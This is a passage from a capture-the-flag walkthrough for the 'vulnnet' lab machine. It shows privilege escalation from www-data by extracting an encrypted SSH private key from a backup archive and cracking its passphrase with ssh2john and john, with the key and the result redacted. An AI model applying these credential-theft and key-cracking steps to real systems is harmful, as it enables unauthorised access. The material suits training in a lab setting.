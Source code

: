 
## Privilege Escalation (www-data to server-management)

### Obtaining the Private SSH Key

- Copying and extracting `ssh-backup.tar.gz`:

```bash
www-data@vulnnet:/var/backups$ cp ssh-backup.tar.gz /dev/shm/
www-data@vulnnet:/var/backups$ cd /dev/shm/
www-data@vulnnet:/dev/shm$ ls
linpeas.out  linpeas.sh  ssh-backup.tar.gz

www-data@vulnnet:/dev/shm$ tar -xvf ssh-backup.tar.gz 
id_rsa
www-data@vulnnet:/dev/shm$ cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

REDACTED
-----END RSA PRIVATE KEY-----
```

- Now we can SSH login using the private key.
- But unfortunately it's encrypted.

```bash
$ nano id_rsa
$ chmod 600 id_rsa 
$ ssh -i id_rsa server-management@vulnnet.thm 
Enter passphrase for key 'id_rsa': 
```

### Bruteforcing the passphrase

- Bruteforce the passphrase using `ssh2john` and `john`:

```bash
$ python3 /usr/share/john/ssh2john.py id_rsa > forjohn.txt

$ john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status

REDACTED     (id_rsa)

1g 0:00:00:08 81.52% (ETA: 01:30:26) 0.1128g/s 1317Kp/s 1317Kc/s 1317KC/s 90414
Session aborted
```

---